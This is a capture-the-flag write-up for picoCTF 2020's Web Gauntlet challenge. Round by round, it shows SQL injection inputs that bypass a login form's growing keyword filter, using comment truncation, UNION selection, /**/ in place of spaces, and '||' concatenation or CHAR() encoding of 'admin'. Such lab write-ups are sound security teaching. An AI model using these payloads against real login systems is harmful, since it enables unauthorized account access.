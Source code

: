 ```yaml
---
layout: post
title: picoCTF 2020 Mini-Competition - Web Gauntlet SQL Injection
---
```


In this challenge, we are linked to a login form we are meant to bypass with SQL injection. At each level the filter changes, so we have to update your injection as necessary.
 
## Round 1 - filter: or

Use basic injection and comment out the rest of the line.

input: `admin'--`

```sql
SELECT * FROM users WHERE username='admin'--' AND password='a'
```

## Round 2 - filter: or and like = --

Without `--`, check for other ways to comment. We can also use UNION to get our specific user.

input: `admin'/*`

```sql
SELECT * FROM users WHERE username='admin'/*' AND password='a'
```

input: `' union select * from users where username in("admin")/*`

```sql
SELECT * FROM users WHERE username='' union select * from users where username in("admin")/* AND password='a'
```

## Round 3 - filter: or and = like > < --

The first injection from the previous round still works here, but let's try to get the second to work too. Spaces are now blocked, but we can use `/**/` comments for the same effect. I tried %20 to replace all the spaces, but it was not effective.

input: `admin'/*`

```sql
SELECT * FROM users WHERE username='admin'/*' AND password='a'
```

input: `'/**/union/**/select*from/**/users/**/where/**/username/**/in("admin")/*`

```sql
SELECT * FROM users WHERE username=''/**/union/**/select*from/**/users/**/where/**/username/**/in("admin")/*' AND password='a'
```

## Round 4 - filter: or and = like > < -- admin

In SQLITE, `||` is a concatenation operator. The simple solution is to simply split up "admin" in a way to bypass the filter. A more complicated solution could include encoding encode "admin" in ASCII number code and using the SQL `CHAR()` function to decode it.

input: `adm'||'in'/*`

```sql
SELECT * FROM users WHERE username='adm'||'in'/* AND password='a'
```

input: `'/**/union/**/select*from/**/users/**/where/**/username/**/in(char(97,100,109,105,110))/*`

```sql
SELECT * FROM users WHERE username=''/**/union/**/select*from/**/users/**/where/**/username/**/in(char(97,100,109,105,110))/*' AND password='a'
```

## Round 5 - filter: or and = like > < -- union admin

Splitting up "admin" still works as only UNION is additionally blacklisted.

input: `adm'||'in'/*`

```sql
SELECT * FROM users WHERE username='adm'||'in'/* AND password='a'
```

